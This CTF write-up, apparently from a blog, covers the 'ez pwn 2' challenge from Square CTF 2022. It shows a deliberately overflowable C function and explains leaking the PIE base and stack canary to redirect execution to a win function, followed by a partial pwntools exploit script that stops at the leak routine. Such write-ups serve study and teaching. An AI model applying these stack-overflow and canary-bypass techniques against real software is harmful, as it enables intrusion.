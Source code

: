 ```yaml
---
layout: post
title: "Square CTF 2022"
---
```


## ez pwn 2 (pwn: 100)
I was the third to solve this one. We're basically given an arbitrary read in `gimme_pointer`, where we supply an address and it writes 8 bytes at that address. We're also given the address of the buffer.

```
void gimme_pointer()
{
    char *leak_addr;
    char this_buffer_is_definitely_too_small_for_that_read[17];
    printf("You are here: %p\n Give me an address and I will grant you 8 leaked bytes:\n", this_buffer_is_definitely_too_small_for_that_read);
    read(0, this_buffer_is_definitely_too_small_for_that_read, 64);
    hex_string_to_byte_array(this_buffer_is_definitely_too_small_for_that_read, (char *)&leak_addr, 16);
    printf("Here are the contents of %p:\n", leak_addr);
    print_buf(leak_addr, 8);
}
```

First, we need to leak the PIE base address, which we can do by passing in the address of the buffer plus `0x20+8` (this is the offset to the return address). This leaks the address of `main`, and then we can subtract its offset to get the binary base address.

Next, we need to leak the canary, which is stored at `[$rbp-0x8]`. The offset is `&buf+0x20-8`. Once we have these two values, we can send the final payload, which consists of 1) a valid pointer (since `gimme_pointer` will attempt to leak it), 2) 8 bytes of padding, 3) the canary, 4) another 8 bytes of padding, and 5) the address of `win`.

```
from pwn import *
import struct

def p64(x):
    return struct.pack('Q', x)
def u64(x):
    return struct.unpack('Q', x)[0]
def p32(x):
    return struct.pack('<I', x)
def u32(x):
    return struct.unpack('<I', x)[0]

def conv(x):
    leak = hex(x)
    val = []
    for i in range(2, len(leak), 2):
        val.append(leak[i:i+2])
    val = val[::-1]
    leak = ''.join(val)
    return leak

def leak(addr, padding=b''):
    global p
    print(p.recvuntil(b':').decode())
    p.sendline(conv(addr).encode() + padding)

    print(p.recvuntil(b':').decode())
    print(p.readline().decode())
```